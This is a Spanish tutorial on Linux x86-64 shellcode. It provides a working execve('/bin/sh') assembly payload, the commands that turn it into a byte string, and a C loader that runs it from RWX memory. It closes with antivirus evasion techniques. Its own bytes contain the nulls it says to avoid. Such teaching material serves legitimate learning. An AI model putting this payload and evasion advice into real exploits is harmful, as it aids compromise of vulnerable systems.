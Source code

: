 # Shellcodes

### 1. ¿Qué es un Shellcode?
Un **shellcode** es un fragmento de código en lenguaje ensamblador diseñado para ejecutarse dentro de un proceso objetivo. 
Se usa comúnmente en **exploits** para tomar el control de un sistema vulnerable.

Los shellcodes pueden ejecutarse en memoria sin necesidad de archivos, lo que los hace ideales para ataques como **buffer overflows** o **inyecciones de código**.

### 2. Tipos de Shellcodes
Existen diferentes tipos de shellcodes según el contexto de ataque:

- **Shellcodes de usuario**: Se ejecutan dentro de procesos de usuario sin privilegios elevados.
- **Shellcodes de kernel**: Se ejecutan en el espacio de kernel, lo que permite un control total del sistema.
- **Shellcodes conectados a red**:
  - **Reverse shell**: Se conecta a un servidor remoto y permite al atacante tomar el control.
  - **Bind shell**: Abre un puerto en la máquina víctima para que el atacante se conecte.

### 3. Características de un Shellcode
Un shellcode efectivo debe cumplir con los siguientes criterios:

- **Pequeño**: Minimiza el tamaño para encajar en buffers pequeños.
- **Autocontenido**: No depende de librerías externas.
- **Evasivo**: Evita caracteres nulos (`\x00`) y detección por antivirus.
- **Portable**: Funciona en múltiples versiones del sistema operativo objetivo.

### 4. Creación de un Shellcode
Para crear un shellcode, se usa ensamblador y luego se convierte en una cadena de bytes. Por ejemplo, un shellcode en **Linux** adaptado para **64 bits** que ejecuta `/bin/sh`:

```assembly
section .text
    global _start

_start:
    xor rax, rax         ; Limpia rax
    push rax             ; NULL terminator
    mov rdi, 0x68732f6e69622f2f ; "//bin/sh" en hexadecimal
    push rdi
    mov rdi, rsp         ; Apunta rdi a "/bin//sh"
    xor rsi, rsi         ; argv = NULL
    xor rdx, rdx         ; envp = NULL
    mov rax, 59          ; syscall execve (59 en 64 bits)
    syscall              ; Llamada al kernel
```
### 5. Conversión de Shellcode a Cadena de Bytes

Para convertir un shellcode en ensamblador a una cadena de bytes.

Primero ensamblamos el código:

```bash
nasm -f elf64 -o shellcode.o shellcode.asm
```

Luego, lo vinculamos y obtenemos el shellcode en formato hexadecimal con `objdump`:

```bash
ld -o shellcode shellcode.o
objdump -d shellcode | grep '[0-9a-f]:' | grep -o '\b[0-9a-f]\{2\}\b' | tr -d '\n' | sed 's/\(..\)/\\x\1/g'
```

Este comando genera una cadena de bytes que se puede inyectar en un programa.

### 6. Uso del Shellcode en C

Podemos probar el shellcode en un programa en C, comúnmente denominado **loader**:

```c
#include <stdio.h>
#include <string.h>
#include <sys/mman.h>
#include <unistd.h>

unsigned char shellcode[] = 
    "\x48\x31\xc0\x50\x48\xbf\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x57"
    "\x48\x89\xe7\x48\x31\xf6\x48\x31\xd2\xb8\x3b\x00\x00\x00\x0f\x05";

int main() {
    printf("Ejecutando shellcode...\n");

    // Obtener el tamaño del shellcode
    size_t shellcode_size = sizeof(shellcode);

    // Reservar memoria RWX con mmap
    void *exec_mem = mmap(NULL, shellcode_size, 
                          PROT_READ | PROT_WRITE | PROT_EXEC, 
                          MAP_ANON | MAP_PRIVATE, -1, 0);
    
    if (exec_mem == MAP_FAILED) {
        perror("mmap");
        return 1;
    }

    // Copiar el shellcode a la memoria ejecutable
    memcpy(exec_mem, shellcode, shellcode_size);

    // Ejecutar el shellcode
    ((void(*)())exec_mem)();

    return 0;
}
```

Se copia a un segmento de memoria asignado dinámicamente con mmap() porque las secciones donde normalmente se almacenan los datos en un programa suelen tener permisos de solo lectura o sin permisos de ejecución, lo que impediría la ejecución del código.

Además, mmap() permite reservar una región de memoria con permisos específicos, como lectura, escritura y ejecución (PROT_READ | PROT_WRITE | PROT_EXEC), asegurando que el código almacenado en ella pueda modificarse y ejecutarse sin restricciones impuestas por el sistema operativo.


Compilamos y ejecutamos:

```bash
gcc -o shellcode_exec shellcode.c -z execstack -no-pie
./shellcode_exec
```

Si se ejecuta correctamente, abrirá una shell interactiva.

### 7. Evasión de Detección

Para evitar detecciones, se pueden aplicar técnicas como:

- **Codificación XOR**: Para evitar bytes nulos y firmas conocidas.
- **Obfuscación**: Alterar el orden de instrucciones sin cambiar la funcionalidad.
- **Cifrado Polimórfico**: Utilizar decodificadores automáticos.
